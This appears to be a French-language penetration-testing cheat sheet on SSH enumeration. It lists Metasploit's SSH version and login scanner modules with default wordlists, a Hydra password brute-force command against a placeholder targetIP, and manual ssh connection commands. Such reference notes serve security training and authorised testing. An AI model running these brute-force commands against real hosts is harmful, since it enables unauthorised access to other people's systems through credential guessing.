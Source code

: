 # 🔐 Énumération SSH

[← Retour à la table des matières](../README.md)

## Port par défaut : 22

## Metasploit Modules
```bash
use auxiliary/scanner/ssh/ssh_version
use auxiliary/scanner/ssh/ssh_login
    set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
    set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
    set STOP_ON_SUCCESS true
    set VERBOSE true
```

## Hydra Bruteforce
```bash
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt targetIP ssh
```

## Connexion manuelle
```bash
ssh user@targetIP
ssh -p 2222 user@targetIP  # Port non-standard
```